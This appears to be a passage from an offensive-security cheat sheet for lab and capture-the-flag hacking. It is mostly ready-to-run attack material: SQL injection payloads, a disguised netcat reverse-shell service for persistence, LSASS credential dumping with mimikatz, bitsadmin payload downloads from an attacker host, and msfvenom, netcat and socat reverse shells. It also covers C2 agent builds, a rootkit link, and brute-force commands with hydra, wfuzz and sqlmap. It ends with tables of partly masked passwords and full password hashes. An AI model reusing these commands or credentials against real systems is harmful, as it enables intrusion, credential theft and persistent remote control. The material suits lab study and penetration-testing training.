  admin"or 1=1 or ""="
  admin" or 1=1
  admin" or 1=1--
  admin" or 1=1#
  admin" or 1=1/*
  admin") or ("1"="1
  admin") or ("1"="1"--
  admin") or ("1"="1"#
  admin") or ("1"="1"/*
  admin") or "1"="1
  admin") or "1"="1"--
  admin") or "1"="1"#
  admin") or "1"="1"/*
  1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
find a row where you can place your output:
  http://<targetip>/inj.php?id=1 union all select 1,2,3,4,5,6,7,8
get db version:
  http://<targetip>/inj.php?id=1 union all select 1,2,3,@@version,5
get current user:
  http://<targetip>/inj.php?id=1 union all select 1,2,3,user(),5
see all tables:
  http://<targetip>/inj.php?id=1 union all select 1,2,3,table_name,5 from information_schema.tables
get column names for a specified table:
  http://<targetip>/inj.php?id=1 union all select 1,2,3,column_name,5 from information_schema.columns where table_name='users'
concat user names and passwords:
  http://<targetip>/inj.php?id=1 union all select 1,2,3,concat(name, 0x3a , password),5 from users
write to a file:
  http://<targetip>/inj.php?id=1 union all select 1,2,3,"content",5 into outfile 'outfile'
```  
### startup scripts [🡑](#tips)  
```
chmod +x /foo/bar
update-rc.d /foo/bar defaults
```  
### stegnography [🡑](#tips)  
```
strings
exiftool
steghide
```  
### tmux shortcuts [🡑](#tips)  
```
prefix: ctrl + b
toggle logging: prefix + shift + p
screen cap: prefix + alt + p
complete history: prefix + alt + shift + p
```  
### tunneling [🡑](#tips)  
```
connect via squid proxy @ 3128/tcp on <targetip>, redirect to ssh service on localhost, run a local standalone daemon on <targetport>:
  proxytunnel -p <targetip>:<targetport> -d 127.0.0.1:22 -a 1234
  ssh john@127.0.0.1 /bin/bash
  vim /etc/proxychains.conf
    http <targetip> <targetport>
  proxychains nmap -sT -p22 <targetip>
  proxychains ssh <username>@<targetip> /bin/bash
forward remote port to local address:
  plink.exe -P 22 -l root -pw "<password>" -R 445:127.0.0.1:445 <targetip>
```  
### windows useful commands [🡑](#tips)  
```
net localgroup Users
net localgroup Administrators
search dir/s *.doc
system("start cmd.exe /k $cmd")
sc create microsoft_update binpath="cmd /K start c:\nc.exe -d <targetip> <targetport> -e cmd.exe" start= auto error= ignore /c C:\nc.exe -e c:\windows\system32\cmd.exe -vv <targetip> <targetport>
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords full"
procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe "sekurlsa::minidump lsass.dmp" "log" "sekurlsa::logonpasswords"
C:\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp ## for 32 bits
C:\temp\procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp ## for 64 bits
bitsadmin /transfer mydownloadjob /download /priority normal http://<attackerip>/payload.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\payload.exe
powershell history: type C:\Users\%USERNAME%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```  


<a name="tools"></a>
## 💥 Tools [↟](#contents)
### burp [🡑](#tools)  
```
set an upstream proxy within burp:
  burp > user options > upstream proxy > <targetip>:<targetport>
```  
### cewl [🡑](#tools)  
```
cewl www.megacorpone.com -m 6 -w /root/newfilelist.txt 2>/dev/null
```  
### fcrackzip [🡑](#tools)  
```
fcrackzip -uDp /usr/share/wordlists/rockyou.txt <file.zip>
unzip -o -P "password" <file.zip>
```  
### gobuster [🡑](#tools)  
```
start with /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt wordlist
search file extension:
  gobuster -u <targetip> -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 80 -a Linux -x txt,php
  gobuster dir -u http://<targetip>:<targetport>/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -z -k -l -x "txt,html,php,asp,aspx,jsp"
quick:
  gobuster -u http://<targetip> -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 80 -a Linux
full/comprehensive:
  gobuster -s 200,204,301,302,307,403 -u http://<targetip> -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 80 -a 'Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0'
ippsec:
  gobuster -u http://<targetip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -s 200,204,301,302,307,403 -k -x txt,php,asp
  gobuster -u http://<targetip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -s 200,204,301,302,307,403 -k -x sh,pl
cgi list:
  /usr/share/seclists/Discovery/Web-Content/CGIs.txt
```  
### hashcat [🡑](#tools)  
```
hashcat -a 0 -m 0 <hash> /usr/share/wordlists/rockyou.txt
```  
### hydra [🡑](#tools)  
```
generic:
  hydra -ufl /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt <targetip>
ftp:
  hydra -t 4 -L /usr/share/wordlists/rockyou.txt -P /usr/share/wordlists/rockyou.txt <targetip> ftp
http:
  hydra -l admin -P /root/ctf_wordlist.txt kioptrix3.com http-post-form "/admin.php:u=^USER^&p=^PASS^&f=login:'Enter your username and password to continue'" -V
with cookie:
  hydra -l user -P /usr/share/wordlists/rockyou.txt <targetip> -V http-get '/dir/page.php?name=^USER^&pass=^PASS^&submit=Log In:F=Incorrect:H=Cookie: insert stuff here'
pop3:
  hydra -l root -P /usr/share/wordlists/rockyou.txt <targetip> pop3
rdp:
  hydra -t 4 -V -l root -P /usr/share/wordlists/rockyou.txt rdp://<targetip>
smtp:
  hydra -s 25 -v -V -l root@ucal.local -P /usr/share/wordlists/rockyou.txt -t 1 -w 20 -f <targetip> smtp
ssh:
  hydra -l root -P /usr/share/wordlists/rockyou.txt <targetip> ssh
  hydra -t 4 -L /usr/share/wordlists/rockyou.txt -P /usr/share/wordlists/rockyou.txt <targetip> ssh
  hydra -t 4 -L /usr/share/wordlists/rockyou.txt -p some_passsword <targetip> ssh
wordpress:
  hydra -l elliot -P ./fsocity.dic <targetip> http-post-form "/wp-login.php:log=elliot&pwd=^PASS^:ERROR"
```  
### john [🡑](#tools)  
```
create custom wordlist:
  john --wordlist=megacorpone-cewl --rules --stdout >megacorpone-cewl-jtr
crack shadow hashes:
  unshadow passwd shadow >unshadowed ; john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed ; john --show unshadowed
crack md5 hashes:
  john --wordlist=/usr/share/wordlists/rockyou.txt --format=RAW-MD5 hashes
```  
### kernel module [🡑](#tools)  
```
rootkit:
  https://github.com/PinkP4nther/Pinkit
```  
### merlin c2 framework [🡑](#tools)  
```
openssl req -x509 -newkey rsa:4096 -sha256 -nodes -keyout server.key -out server.crt -subj "/CN=root.kali.pwn" --days 7
GOOS=windows GOARCH=amd64 go build -ldflags "-X main.url=https://<targetip>:<attackerport>" -o merlinagentx64.exe main.go
go build -o merlinagent.elf main.go
```  
### metasploit [🡑](#tools)  
```
db_status
load mimiktaz
msfconsole -q
msfdb init
msfdb start
search <string>
set payload windows/x86/meterpreter/reverse_tcp
set verbose true
show advanced
show options
show payloads
show targets
systemctl start postgresql
systemctl status postgresql
wdigest
```  
### msfvenom [🡑](#tools)  
```
linux bind tcp shellcode:
  msfvenom -p linux/x86/shell_bind_tcp lport=4444 -f c -b "\x00\x0a\x0d\x20" --platform linux -a x86 -e x86/shikata_ga_nai
windows reverse tcp shellcode:
  msfvenom -p windows/shell_reverse_tcp lhost=<targetip> lport=<attackerport> -b "\x00\x0a\x0d" -f c -a x86 --platform windows -e x86/shikata_ga_nai
revere tcp shellcode for client-side exploit without any encoder:
  msfvenom -p windows/shell_reverse_tcp lhost=<targetip> lport=<attackerport> -f js_le --platform windows -a x86 -e generic/none
php reverse meterpreter:
  msfvenom -p php/meterpreter/reverse_tcp LHOST=<targetip> LPORT=4<attackerport> -f raw -o shell.php
php reverse shell:
  msfvenom -p php/reverse_php LHOST=<targetip> LPORT=80 -f raw -o reverse.php
java war reverse shell:
  msfvenom -p java/shell_reverse_tcp LHOST=<targetip> LPORT=4<attackerport> -f war -o shell.war
windows javascript reverse shell:
  msfvenom -p windows/shell_reverse_tcp LHOST=<targetip> LPORT=4<attackerport> -f js_le -e generic/none -n 18
windows powershell reverse shell:
  msfvenom -p windows/shell_reverse_tcp LHOST=<targetip> LPORT=4<attackerport> -e x86/shikata_ga_nai -i 9 -f psh -o shell.ps1
linux reverse tcp shell elf shared object file:
  msfvenom -p linux/x86/shell_reverse_tcp -f elf-so lhost=<targetip> lport=<attackerport> -o linux-shell-reverse-tcp.so
```  
### netcat [🡑](#tools)  
```
bind:
  nc -lvp <attackerport>
connect:
  nc -nv <targetip> <attackerport>
reverse:
  nc -e /bin/bash <targetip> <attackerport>
```  
### ncrack [🡑](#tools)  
```
bruteforce rdp login:
  ncrack -vv --user administrator -P passwords.txt rdp://<targetip>
```  
### netdiscover [🡑](#tools)  
```
netdiscover -r 192.168.92.0/24
```  
### nikto [🡑](#tools)  
```
nikto -h http://<targetip>
nikto -C all -h http://IP
nikto -h <targetip> -useproxy http://<targetip>:3128
```  
### nmap [🡑](#tools)  
```
vulners nse script:
  https://github.com/vulnersCom/nmap-vulners
searchsploit-like vuln scan:
  nmap --script vulners --script-args mincvss=5.0 <targetip>
ping sweep:
  nmap -sn -oN scan.ping.nmap <targetiprange> ; cat scan.ping.nmap | grep Up | cut -d" " -f2
quick tcp:
  nmap -Pn -n -sC -sV -vv -oN scan.tcp.nmap <targetip>
quick udp:
  nmap -Pn -n -sU -sV -vv -oN scan.udp.nmap <targetip>
full/intensive tcp:
  nmap -Pn -n -sC -sV -p- -vv -oN scan.fulltcp.nmap <targetip>
full/intensive udp:
  nmap -Pn -n -sU -sV -p- -vv -oN scan.fulltcp.nmap <targetip>
smb bruteforce:
  nmap --script=smb-brute.nse <targetip>
  nmap -sV -p 445 --script smb-brute <targetiprange>
```  
### openssl [🡑](#tools)  
```
openssl req -x509 -newkey rsa:4096 -sha256 -nodes -keyout server.key -out server.crt -subj "/CN=root.kali.pwn" --days 7 ## create a new x509 certificate valid for 7 days
openssl req -new -key caca.key -out caca.csr ## create a new certificate signing request (csr)
openssl x509 -req -days 365 -in caca.csr -signkey caca.key -out pipi.crt ## generate new certificate
openssl pkcs12 -export -in pipi.crt -inkey caca.key -out pipi.p12 ## generate pkcs12 certificate
```  
### searchsploit [🡑](#tools)  
```
nmap service scan output -> searchsploit:
nmap -p- -sV -oX new.xml <attackerip>; searchsploit --nmap new.xml
```  
### socat [🡑](#tools)  
```
socat file:`tty`,raw,echo=0 tcp-listen:<attackerport>
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<attackerip>:<attackerport>
```  
### sqlmap [🡑](#tools)  
```
avoid prompts, use defaults:
  sqlmap --batch
read http request from a text file (request captured from burp, useful for POST requests) and use it to start scan:
  sqlmap -r searchform.txt --dbs --batch
  sqlmap -r searchform.txt -D webapphacking --dump-all --batch
post requests:
  sqlmap -u "http://example.com/" --data "a=1&b=2&c=3" -p "a,b" --method POST
intrusive scans:
  sqlmap --level 5 --risk 3
list databses:
  sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos" --dbs
list tables within a database:
  sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos" -D gallery --tables
dump a table:
  sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos" -D gallery -T dev_accounts --dump
blind sql enumeration:
  sqlmap -u "http://<targetip>:<targetport>/index.php" --forms --dbs
```  
### steghide [🡑](#tools)  
```
steghide extract -sf file.jpg
```  
### unicornscan [🡑](#tools)  
```
scan all 64k ports:
  unicornscan -vmT <targetip>:a
scan first 1k ports:
  unicornscan -vmT <targetip>:p
scan in udp mode:
  unicornscan -vmU <targetip>
```  
### wfuzz [🡑](#tools)  
```
enumerate directories:
  wfuzz -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt "http://127.0.0.1/index.php?vuln=../FUZZ/file1.php"
  wfuzz -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt --sc 200 -t 50 http://<targetip>:<targetport>/FUZZ
  wfuzz -w common.txt -w /usr/share/seclists/Discovery/Web-Content/web-mutations.txt --sc 200 -t 50 http://<targetip>:4488/FUZZ
enumerate directories and filter on response length:
  wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hh 158607 http://bart.htb/FUZZ
bruteforce password:
  bruteforce a single list:
    wfuzz -w pwds.db -d "user=pinkadmin&pass=FUZZ&pin=FUZ2Z" -t 50 --hw 6 http://<targetip>:<targetport>/login.php
  bruteforce multiple lists:
    wfuzz -w pwds.db -w pins.txt -d "user=pinkadmin&pass=FUZZ&pin=FUZ2Z" -t 50 --hw 6 http://<targetip>:<targetport>/login.php
  bruteforce multiple lists, but faster:
    wfuzz -c -z file,./usernames.txt -z file,./pwds.db -d 'user=FUZZ&pass=FUZ2Z&pin=12345' --hh 45 http://<targetip>:<targetport>/login.php
    wfuzz -c -z file,./pin.txt -d 'user=pinkadmin&pass=AaPinkSecaAdmin4467&pin=FUZZ' --hh 45,41 http://<targetip>:<targetport>/login.php
```  


<a name="loot"></a>
## 🔥 Loot [↟](#contents)
<a name="credentials"></a>
### 🔑 Credentials [🡑](#loot)
| # | Username | Password | Type |
|---|----------|----------|------|
| 1. | `notch` | `8YsqfCTnvxAUeduzjN.....` | `ftp` |
| 2. | `veronica` | `babygirl_veronica07@yah......` | `ftp` |
| 3. | `eric` | `ericdoesntdrinkhiso.....` | `ftp` |
| 4. | `Balrog` | `Mell..` | `ftp` |
| 5. | `eezeepz` | `keKkeKKeKKeKkE....` | `http` |
| 6. | `john` | `MyNameIsJ...` | `liggoat` |
| 7. | `robert` | `ADGAdsafdfwt4gadf....` | `liggoat` |
| 8. | `dreg` | `Mast..` | `lotuscms` |
| 9. | `loneferret` | `starwa..` | `lotuscms` |
| 10. | `admin` | `kEjdbRigfBHUREi....` | `mysql` |
| 11. | `john` | `thiscannotb...` | `mysql` |
| 12. | `wpdbuser` | `meErKa..` | `mysql` |
| 13. | `mysql` | `mysql@12...` | `mysql` |
| 14. | `admin` | `3298fj8323j80d....` | `mysql` |
| 15. | `wordpress` | `Oscp1234..` | `mysql` |
| 16. | `john` | `hiroshi..` | `mysql` |
| 17. | `root` | `fuckey..` | `mysql` |
| 18. | `Admin` | `TogieMYSQL123....` | `mysql` |
| 19. | `root` | `darkshad..` | `mysql` |
| 20. | `sql_svc` | `M3g4c0rp...` | `sql` |
| 21. | `administrator` | `MEGACORP_4dm....` | `ssh` |
| 22. | `notch` | `8YsqfCTnvxAUeduzjN.....` | `ssh` |
| 23. | `pi` | `raspber..` | `ssh` |
| 24. | `fox` | `12345..` | `ssh` |
| 25. | `eric` | `triscui..` | `ssh` |
| 26. | `anne` | `prince..` | `ssh` |
| 27. | `graham` | `GSo7isUM...` | `ssh` |
| 28. | `root` | `1234.` | `ssh` |
| 29. | `admin` | `thisisalsopw...` | `ssh` |
| 30. | `fristigod` | `LetThereBeFri....` | `ssh` |
| 31. | `dreg` | `Mast..` | `ssh` |
| 32. | `loneferret` | `starwa..` | `ssh` |
| 33. | `john` | `MyNameIsJ...` | `ssh` |
| 34. | `robert` | `ADGAdsafdfwt4gadf....` | `ssh` |
| 35. | `togie` | `1234.` | `ssh` |
| 36. | `bob` | `secr..` | `ssh` |
| 37. | `susan` | `MySuperS3cretVa....` | `ssh` |
| 38. | `insecurity` | `P@ssw0..` | `ssh` |
| 39. | `smeagol` | `MyPreciousR...` | `ssh` |
| 40. | `Ori` | `span..` | `ssh` |
| 41. | `robot` | `abcdefghijklmnopqrstu.....` | `ssh` |
| 42. | `mark` | `5AYRft73VtFp....` | `ssh` |
| 43. | `wpadmin` | `wpadm..` | `ssh` |
| 44. | `root` | `rootpasswo...` | `ssh` |
| 45. | `user` | `letme..` | `ssh` |
| 46. | `tomcat` | `submitthisforpo....` | `tomcat` |
| 47. |  | `execrab..` | `truecrypt` |
| 48. | `rascal` | `lov.` | `webapp` |
| 49. | `user1` | `hell.` | `webapp` |
| 50. | `user2` | `comman..` | `webapp` |
| 51. | `user3` | `p@ssw0..` | `webapp` |
| 52. | `test` | `testte..` | `webapp` |
| 53. | `superadmin` | `Uncracka...` | `webapp` |
| 54. | `test1` | `testte..` | `webapp` |
| 55. | `admin` | `5afac8d8..` | `webapp` |
| 56. | `john` | `66lajGGb..` | `webapp` |
| 57. | `frodo` | `iwilltakethe....` | `webapp` |
| 58. | `smeagol` | `MyPreciousR...` | `webapp` |
| 59. | `aragorn` | `AndMySwo..` | `webapp` |
| 60. | `legolas` | `AndMyB..` | `webapp` |
| 61. | `gimli` | `AndMyA..` | `webapp` |
| 62. | `myP14ceAdm1nAcc0uNT` | `manchest..` | `webapp` |
| 63. | `tom` | `spongeb..` | `webapp` |
| 64. | `mark` | `snowfla..` | `webapp` |
| 65. | `john` | `enig..` | `wordpress` |
| 66. | `mark` | `helpdesk..` | `wordpress` |
| 67. |  | `admin:$P$Bx9ohXoCVR5lkKtuQbuWuh2........` | `wordpress` |
| 68. | `admin` | `TogieMYSQL123....` | `wordpress` |
| 69. | `elliot` | `ER28-06..` | `wordpress` |
| 70. | `admin` | `admi.` | `wordpress` |

<a name="hashes"></a>
### 🔑 Hashes [🡑](#loot)
| # | Hash |
|---|------|
| 1. | `abatchy:$6$xEq/159Q$ScuKnynbwTBdFA4B9w6OqKxQpWPGpofi59McVuP6T1SADKhNy4n33Ovkk0hwZQkx72XriPSIrc2ubr16OEBBn0:17238:0:99999:7:::` |
| 2. | `admin:$6$NPXhvENr$yG4a5RpaLpL5UDRRZ3Ts0eZadZfFFbYpI1kyNJp9rND0AySx2FhYSmAvY.91UzETJVvZcDjWb2pp85uLAli2J/:16757:0:99999:7:::` |
| 3. | `Administrator:500:0a70918d669baeb307012642393148ab:34dec8a1db14cdde2a21967c3c997548:::` |
| 4. | `Administrator:500:c74761604a24f0dfd0a9ba2c30e462cf:d6908f022af0373e9e21b8a241c86dca:::` |
| 5. | `anansi:$6$hblZftkV$vmZoctRs1nmcdQCk5gjlmcLUb18xvJa3efaU6cpw9hoOXC/kHupYqQ2qz5O.ekVE.SwMfvRnf.QcB1lyDGIPE1:15768:0:99999:7:::` |
| 6. | `anne:$6$ChsjoKyY$1uHlk7QUSOmdpvSP7Q4PYmE3evwQbUPFp27I4ZdRx/pZp8C8gJAQGu2vy8kwLakYA7cWuZ40aOl2u.8J94U7V.:17595:0:99999:7:::` |
| 7. | `arrexel:$1$mDpVXKQV$o6HkBjhl/e.S.bV96tMm6.:17504:0:99999:7:::` |
| 8. | `ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f58964a2376bbd769:::` |
| 9. | `Balrog:$6$J6kuCfxq$L5ALsHRYfOu0bVV9MbW3.VZOUVEaKSWhfPIq5wXUFV407tpvH8Zx7WdbJeXgdWoPo9LU8eIznf0d44qoFAMn3.:17284:0:99999:7:::` |
| 10. | `billy:$6$eqJNxIDh$oO.ynkHZmLxfr0k8YXHHdbyB4boe2two4HnEiJzzuVEUh0w0paEtVCmHXziHhZIet71QcLqhqnV/iknE/pXdS1:17035:0:99999:7:::` |
| 11. | `bitnamiftp:$6$saPiFTAH$7K09sg5oIfkIs5kuMx1R/Um4HNd8O6vF2n8oICEom8VVer0BYATY5wtzdPdP3JeuKbZ4RYBml0THNQv8TSc0s/:16751:0:99999:7:::` |
| 12. | `bob:$6$Kk0DA.6Xha4nL2p5$jq7qoit2l4ckULg1ZxcbL5wUz2Ld2ZUa.RYaIMs.Lma0EFGheX9yCXfKy37K0GsHz50FYIqIESo4QXWL.DYTI0:17721:0:99999:7:::` |
| 13. | `brexit:$6$51s7qYVw$XbTfXEV2acHRp9vmA7VTxO35OLK9EGZJzDGF9nYaukD3eppHsn2P1ESMr.9rRn/YYO70uiUskfkWP0LyRtTiT1:18048:0:99999:7:::` |
| 14. | `crackmeforpoints:$6$p22wX4fD$RRAamkeGIA56pj4MpM7CbrKPhShVkZnNH2NjZ8JMUP6Y/1upG.54kSph/HSP1LFcn4.2C11cF0R7QmojBqNy5/:17104:0:99999:7:::` |
| 15. | `doomguy:$6$DWqgg./v$NxqnujIjE8RI.y1u/xiFBPC0K/essEGOfxSF7ovfHG46K6pnetHZNON3sp19rGuoqo26wQkA4B2znRvhqCGQ11:17594:0:99999:7:::` |
| 16. | `dreg:$1$qAc2saWZ$Y567sEs.ql3GMttI6pvoe0:15080:0:99999:7:::` |
| 17. | `eezeepz:$6$djF4bN.s$JWhT7wJo37fgtuJ.be2Q62PnM/AogXuqGa.PgRzrMGv9/Th0aixBXl8Usy9.RkO1ZRAQ/UM3xP7oGWu9zgEIl.:16756:0:99999:7:::` |
| 18. | `eric:$6$b15/PaMU$VKQussKbrXty79HD4A989SVCn.7.u6bJLMvsFgDSgiM01GlyM/lhb1xF0RcX906O6aIMbP7XoVI2F5UzII72i.:17033:0:99999:7:::` |
| 19. | `fristigod:$6$0WqnZlI/$gIzMByP7rH21W3neA.uHYZZg5aM7gI1xtOj8WwgoK1QgQh2LWL0nQBJau/mGcOSxLbaGJhJjM.6HNJTWsaetf0:16758:0:99999:7:::` |
| 20. | `graham:$6$WF7GkVxM$MOL.cXLpG6UTO0M4exCUFwOEiUhW6bwQa.Frg9CerQbTp.EW4QTzEAuio26Aylv.YP0JPAan10tsUFv6kyvRN0:18010:0:99999:7:::` |
| 21. | `Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::` |
| 22. | `hackme:$6$.L285vCy$Hma4mKjGV.sE7ZCFVj2iOkRokX1u3F5DMiTPQFoZPJnQ1kUXLje/bY2BIUQFbYu.8M6BvLML5fAftZOCEVnqa1:17981:0:99999:7:::` |
| 23. | `harold:$1$7d.sVxgm$3MYWsHDv0F/LP.mjL9lp/1:14529:0:99999:7:::` |
| 24. | `harold:$1$Xx6dZdOd$IMOGACl3r757dv17LZ9010:14513:0:99999:7:::` |
| 25. | `Harry:1008:93c50499355883d1441208923e8628e6:031f5563e0ac4ba538e8ea325479740d:::` |
| 26. | `IUSR_GRANPA:1003:a274b4532c9ca5cdf684351fab962e86:6a981cb5e038b2d8b713743a50d89c88:::` |
| 27. | `IWAM_GRANPA:1004:95d112c4da2348b599183ac6b1d67840:a97f39734c21b3f6155ded7821d04d16:::` |
| 28. | `jens:$6$JWiFWXb8$cGQi07IUqln/uLLVmmrU9VLg7apOH9IlxoyndELCGjLenxfAaVec5Gjaw2DA0QHRwS9hTB5cI2sg/Wk1OFoAh/:18011:0:99999:7:::` |
| 29. | `john:$1$H.GRhlY6$sKlytDrwFEhu5dULXItWw/:15374:0:99999:7:::` |
| 30. | `john:$1$wk7kHI5I$2kNTw6ncQQCecJ.5b8xTL1:14525:0:99999:7:::` |
| 31. | `john:$1$zL4.MR4t$26N4YpTGceBO0gTX6TAky1:14513:0:99999:7:::` |
| 32. | `john:$6$aoN7zaDl$e6RsRZndFekSS4bgqz0y5dgzO1dTQsMAWck6dFGogkxrrZf1ZyGbjy/oCpqJniIkasXP05iFZHs.XZVIQqZ2w1:17594:0:99999:7:::` |
| 33. | `klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:14742:0:99999:7:::` |
| 34. | `Lakis:1009:f927b0679b3cc0e192410d9b0b40873c:3064b6fc432033870c6730228af7867c:::` |
| 35. | `loneferret:$1$/x6RLO82$43aCgYCrK7p2KFwgYw9iU1:15375:0:99999:7:::` |
| 36. | `loneferret:$1$qbkHf53U$r.kK/JgDLDcXGRC6xUfB11:15079:0:99999:7:::` |
| 37. | `mai:$6$Mp.mBBi7$BCAKb75xSAy8PM6IhjdSOIlcmHvA9V4KnEDSTZAN2QdMUwCwGiwZtwGPXalF15xT097Q6zaXrY6nD/7RsdSiE0:17594:0:99999:7:::` |
| 38. | `makis:$1$Yp7BAV10$7yHWur1KMMwK5b8KRZ2yK.:17239:0:99999:7:::` |
| 39. | `mark:$6$//1vISW6$9pl2v8Jg0mNE7E2mgTQlTwZ1zcaepnDyYE4lIPJDdX7ipnxm/muPD7DraEm3z0jqDe5iH/Em2i6YXJpQD.5pl0:18010:0:99999:7:::` |
| 40. | `mark:$6$J3gYK/cQ$au1WmOCtq.X1DTKt1CEmKA9qr4PfwZuAGUdCfAV.SSU5VxAtjW/Xk1/oWJtQVaoXMEVXmeBIB6bq24JpcSRjF0:17408:0:99999:7:::` |
| 41. | `mysql:$6$O2ymBAYF$NZDtY392guzYrveKnoISea6oQpv87OpEjEef5KkEUqvtOAjZ2i1UPbkrfmrHG/IonKdnYEec0S0ZBcQFZ.sno/:18053:0:99999:7:::` |
| 42. | `notch:$6$RdxVAN/.$DFugS5p/G9hTNY9htDWVGKte9n9r/nYYL.wVdAHfiHpnyN9dNftf5Nt.DkjrUs0PlYNcYZWhh0Vhl/5tl8WBG1:17349:0:99999:7:::` |
| 43. | `noulis:$6$ApsLg5.I$Zd9blHPGRHAQOab94HKuQFtJ8m7ob8MFnX6WIIr0Aah6pW/aZ.yA3T1iU13lCSixrh6NG1.GHPl.QbjHSZmg7/:17247:0:99999:7:::` |
| 44. | `Ori:$6$1zYgjEIM$VQ0gvU7JjenS9WuiVjSeva8pbWnEXjqTmEdFnQRXKmTmXPXmt55/oyup40NiXD8J9GxmXF7DYiaHZDRshrs3f1:17237:0:99999:7:::` |
| 45. | `oscp:$6$k8OEgwaFdUqpVETQ$sKlBojI3IYunw8wEDAyoFdHgVtOPzkDPqksql7IWzpfZXpd3UqP569BokTZ52mDroq/rmJY9zgfeQVmBFu/Sf.:18452:0:99999:7:::` |
| 46. | `peter:$6$QpjS4vUG$Zi1KcJ7cRB8TJG9A/x7GhQQvJ0RoYwG4Jxj/6R58SJddU2X/QTQKNJWzwiByeTELKeyp0vS83kPsYITbTTmlb0:17721:0:99999:7:::` |
| 47. | `pi:$6$SQPHFoql$gSE5qWbZRGHDin4LnFY56sMnQsmvH/o2oIlXv.3KcqVsJCYgJ09R9/Pws88e8yjKgJnaxN3zdq8f5ots1bJcY/:17148:0:99999:7:::` |
| 48. | `postgres:$1$dwLrUikz$LRJRShCPfPyYb3r6pinyM.:17239:0:99999:7:::` |
| 49. | `puck:$6$A/mZxJX0$Zmgb3T6SAq.FxO1gEmbIcBF9Oi7q2eAi0TMMqOhg0pjdgDjBr0p2NBpIRqs4OIEZB4op6ueK888lhO7gc.27g1:15768:0:99999:7:::` |
| 50. | `reynard:$6$h54J.qxd$yL5md3J4dONwNl.36iA.mkcabQqRMmeZ0VFKxIVpXeNpfK.mvmYpYsx8W0Xq02zH8bqo2K.mkQzz55U2H5kUh1:15768:0:99999:7:::` |
| 51. | `robert:$1$rQRWeUha$ftBrgVvcHYfFFFk6Ut6cM1:15374:0:99999:7:::` |
| 52. | `robot:$6$HmQCDKcM$mcINMrQFa0Qm7XaUaS5xLEBSeP3bUkr18iwgwTAL8AIfUDYBWG5L8J9.Ukb3gVWUQoYam4G0m.I5qaHBnTddK/:16752:0:99999:7:::` |
| 53. | `root:$1$5GMEyqwV$x0b1nMsYFXvczN0yI0kBB.:15375:0:99999:7:::` |
| 54. | `root:$1$DdHlo6rh$usiPcDoTR37eL7DAyLjhk1:0:0::0:0:Charlie &:/root:/bin/csh` |
| 55. | `root:$1$FTpMLT88$VdzDQTTcksukSKMLRSVlc.:14529:0:99999:7:::` |
| 56. | `root:$1$p/d3CvVJ$4HDjev4SJFo7VMwL2Zg6P0:17239:0:99999:7:::` |
| 57. | `root:$1$QAKvVJey$6rRkAMGKq1u62yfDaenUr1:15082:0:99999:7:::` |
| 58. | `root:$1$XROmcfDX$tF93GqnLHOJeGRHpaNyIs0:14513:0:99999:7:::` |
| 59. | `root:$6$.wvqHr9ixq/hDW8t$a/dHKimULfr5rJTDlS7uoUanuJB2YUUkh.LWSKF7kTNp4aL8UTlOk2wT8IkAgJ.vDF/ThSIOegsuclEgm9QfT1:18452:0:99999:7:::` |
| 60. | `root:$6$9xQC1KOf$5cmONytt0VF/wi3Np3jZGRSVzpGj6sXxVHkyJLjV4edlBxTVmW91pcGwAViViSWcAS/.OF0iuvylU5IznY2Re.:16753:0:99999:7:::` |
| 61. | `root:$6$aorWKpxj$yOgku4F1ZRbqvSxxUtAYY2/6K/UU5wLobTSz/Pw5/ILvXgq9NibQ0/NQbOr1Wzp2bTbpNQr1jNNlaGjXDu5Yj1:17721:0:99999:7:::` |
| 62. | `root:$6$BVgS5ne0$Q6rV3guK7QQUy7uRMwbQ3vv2Y5I9yQUhIzvrIhuiDso/o5UfDxZw7MMq8atR3UdJjhpkFVxVD0cVtjXQdPUAH.:17431:0:99999:7:::` |
| 63. | `root:$6$CM3c1cdI$HbQWZlQdGEWV8yo3j7M84i1/RFK4G7fafTUIUYLWk52zm9O8KRLhqZenF8KbqsUjHlZQk4VmNEeEbBCRjOWbH0:17111:0:99999:7:::` |
| 64. | `root:$6$cQPCchYp$rWjOEHF47iuaGk/DQdkG6Dhhfm3.hTaNZPO4MoyBz2.bn44fERcQ23XCsp43LOt5NReEUjwDF8WDa5i1ML2jH.:16695:0:99999:7:::` |
| 65. | `root:$6$GpmQGQUN$8kLewzMF4ItmxezcryWqSPrXNRTH5TOQFKKkHjK2NSmrTg95xiYi.l8L.RYUL.8pAsj8s4EGvDy4dvENQIqNf.:15585:0:99999:7:::` |
| 66. | `root:$6$kdMFceEg$pk9h93tdD7IomhE7L0Y396HO6fxSM.XDh9dgeBhKpdZlM/WYxCZe7yPRNHfZ5FvNRuILVp2NOsqNmgjoSx/IN0:18012:0:99999:7:::` |
